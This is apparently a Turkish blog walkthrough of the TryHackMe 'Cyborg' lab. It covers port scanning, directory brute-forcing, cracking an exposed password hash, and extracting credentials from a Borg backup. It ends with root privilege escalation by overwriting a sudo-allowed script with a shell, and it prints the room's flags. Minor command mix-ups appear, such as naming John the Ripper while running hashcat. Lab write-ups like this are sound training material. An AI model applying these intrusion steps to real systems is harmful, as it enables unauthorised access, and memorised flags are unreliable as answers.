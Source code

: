 ```yaml
---
title: Cyborg
date: 2024-03-27 13:04:12 
categories: [TryHackMe]
tags: [Easy,Pentest,Encryption]
image: images/cyborg.jpg
---
```


## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/cyborgt8">Cyborg</a> makinesinin çözümünü paylaşacağım.

Şifrelenmiş arşivleri, kaynak kodu analizini ve daha fazlasını içeren bir ctf.

Başlayalım.

# Görev 1 Compromise the System 

Her zamanki gibi nmap taramasıyla başlıyoruz.

>nmap -A -T5 -sV -p- $ip

nmap çıktısı şu şekilde:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

1.
Makineyi tarayın. Kaç port açık?
>Cevap:2

2.
22 portunda hangi servis çalışıyor?
>Cevap:ssh

3.
80 portunda hangi servis çalışıyor?
>Cevap:http

4.
user.txt bayrağını bulunuz.

Hedefin websitesine gidelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a1.png?raw=true)

Karşımıza Apache2 Ubuntu Default Page geldi. Bu sayfadan bişey çıkaramayız.

Gizli dizinleri görmek için gobuster çalıştıralım.

>gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.218.26
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/27 16:14:52 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.218.26/admin/]
/etc                  (Status: 301) [Size: 310] [--> http://10.10.218.26/etc/]
Progress: 220326 / 220561 (99.89%)
===============================================================
2023/03/27 16:27:14 Finished
===============================================================
```

Gobuster çıktısı bu şekilde. admin ve etc dizinini inceleyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a2.png?raw=true)

Buradaki kullanıcı isimlerini not edelim: Josh, Adam ve Alex. İleride işimize yarayabilirler. Başka neler işimize yarayabilir? Alex, mesajında bazı işleri mahvettiğini söylüyor. Web sitesini daha güvenli hale getirmek için ne yapacağını bilmediği için beklemeye karar vermiş ve yapılandırma dosyalarının herkesin erişebildiğinden bahsediyor. Ayrıca, “music_archive” adlı bir arşivinden bahsediyor.

Yani, web sitesi pek güvenli değil. Yapılandırma dosyasına erişebiliriz ve “music_archive” adlı arşivi de onun için önemli görünüyor.

Web sitesini keşfetmeye devam edelim.

“Archive-Download” kısmında bize “archive.tar” dosyasını indiriyor.

Dosyayı incelemeden once /etc alt dizin adresimizide bir ziyaret edelim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a3.png?raw=true)

passwd dosyasıni indirelim ve inceleyelim.

>music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

music_archive’in hashi elimizde. Bu hashi hashcat ile kırabiliriz.

Hash'i bir txt dosyasına kaydedelim.

>echo 'music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > unshadowed.txt

john the ripper kullanarak hash'i kırıyoruz.

>hashcat -m 1600 -a 0 hash.txt /path/to/file/rockyou.txt

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a4.png?raw=true)

>squidward

music_archive dosyasının şifresini biliyoruz. Diğer dosyaya geçelim.

archive.tar dosyasını çıkartalım.

>tar -xvf archive.tar

README.md dosyasını dikkatimi çekti ve dosyayı açtım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a5.png?raw=true)

Bu dosyaların bir Borg yedekleme deposu olduğunu söylüyor.

Burada Borg’u araştırmamız gerekiyor. Verdiği link aslında oldukça yardımcı oluyor.

Borg’un ne olduğunu anlamanız ve nasıl kullanıldığını öğrenmeniz gerekiyor.

https://borgbackup.readthedocs.io/

Verdigi sitede Quick Start kısmında nasıl kullanılacağı anlatılmış.

Borg'u kuralım.
>sudo apt-get install borg



```
borg list home/field/dev/final_archive

──(kali㉿kali)-[~/Downloads]
└─$ borg list home/field/dev/final_archive 
Enter passphrase for key /home/kali/Downloads/home/field/dev/final_archive: 
music_archive                Tue, 2020-12-29 17:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

Bu komutu çalıştırınca yukarıda bulduğumuz şifreyi girdim ve başarılı oldum.

Güzel, “music_archive” dosyasını bulduk. Şimdi, içerisinde neler olduğuna bakalım.

Aşağıdaki komut ile “music_archive” içeriğini listeleyebiliriz

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a6.png?raw=true)

İçeriğinin sonunda “secret.txt” ve “note.txt” dikkatimi çekti. Bu dosyaları incelemek için “music_archive” dosyasını çıkartalım

>borg extract home/field/dev/final_archive::music_archive

home içerisine alex adlı dosya çıkartıldı. Bu notlara bakalım.

>cat home/alex/Documents/note.txt

note.txt dosyasını açtığımızda kullanıcı adı ve şifreyi buluyoruz.
>alex:S3cretP@s3

Bulduğumuz kullanıcı adı ve şifreyle ssh servisine girelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a7.png?raw=true)

Makineye giriş yapmayı başardık. user bayrağını alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a8.png?raw=true)

```
user_flag:flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```
Geriye root bayrağını almak kaldı. Yetki yükseltme işlemi yaparak roota erişmeye çalışalım.

>sudo -l
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a9.png?raw=true)


/etc/mp3backups/backup.sh dosyasını çalıştırabiliyoruz. Kontrol edelim ve değiştirmeye çalışalım.

> chmod 777 /etc/mp3backups/backup.sh //backup.sh dosyasının izinlerini değiştiriyoruz.

> echo "bin/bash" > /etc/mp3backups/backup.sh //backup.sh dosyasına /bin/bash komutunu ekliyoruz.

> sudo /etc/mp3backups/backup.sh // dosyayı çalıştırıyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a10.png?raw=true)

Artık root olduğumuza göre root bayrağını alabiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a11.png?raw=true)

```
root_flag:flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

Ve böylelikle bir ctf daha tamamladık gelecek yazılarımda görüşmek üzere.

![fsoc](/images/fsoc.gif)
